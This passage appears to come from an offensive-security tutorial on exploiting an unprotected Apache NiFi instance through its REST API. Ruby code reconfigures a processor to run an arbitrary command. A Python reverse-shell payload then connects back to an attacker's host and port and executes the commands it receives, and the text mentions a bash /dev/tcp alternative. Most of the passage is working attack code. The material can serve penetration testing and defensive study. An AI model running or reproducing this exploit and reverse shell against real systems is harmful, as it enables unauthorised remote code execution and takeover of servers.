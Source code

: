 ```
def configure_processor(processor, command, command_args)
  configure = HTTP.put("#{TARGET}/processors/#{processor['id']}",
  :json => {
  :component => {
    :id => processor["id"],
    :name => processor["component"]["name"],
    :config => {
      :concurrentlySchedulableTaskCount => "1",    
      :schedulingPeriod => "10 sec",               
      :executionNode => "ALL",                     
      :penaltyDuration => "30 sec",                
      :yieldDuration => "1 sec",                   
      :bulletinLevel => "WARN",                    
      :schedulingStrategy => "TIMER_DRIVEN",       
      :comments => "",                             
      :autoTerminatedRelationships => ['success'], # Required for standalone processor
      :properties => {
     :Command => command,                      # Command to run
     "Command Arguments": command_args,        # Arguments to command
     "Batch Duration":"5 sec",                 # How often to write results
     "Redirect Error Stream":"false",          # We don't care about errors
     "Argument Delimiter":"}"                  # Set } to argument delimeter
      }                                            # because some arguments use
    },                                             # spaces. I'll explain later 
    :state => "STOPPED"                            # Don't start it just yet
    },
    :revision => {
      :clientId => "",                             
      :version => get_version(processor)           # Need correct version to update
    }
  }).parse
  return configure                                 # Redundant return
end
```

## Step 4: Put Laser Cannons On It
The configuration step above requires a command and then its command arguments separated by a '}'.  When you call the configure_processor method, these need to be set.  I chose '}' as an argument delimiter because it's not a popular character among command arguments so I shouldn't have to escape it later.  Putting a '}' after every argument sounds awful but you'll see why it isn't too big of a deal soon. 

I used python as the command to execute a reverse shell script.  For some reason (probably a good one), not all NiFi versions allow interactive bash to run in a processor so you can't use that handy /dev/tcp trick all the time.  It does work on 1.2.0, but this works on all versions if they aren't protected or installed on a server that doesn't have python.

```
command_args = "-c}\"import socket
import base64
import subprocess
HOST = '#{LHOST}'
PORT = #{LPORT}

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
while 1:
  data = s.recv(1024)
  proc = subprocess.Popen(data, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
  stdout_value = proc.stdout.read() + proc.stderr.read()
  s.send(stdout_value)
s.close()\""

```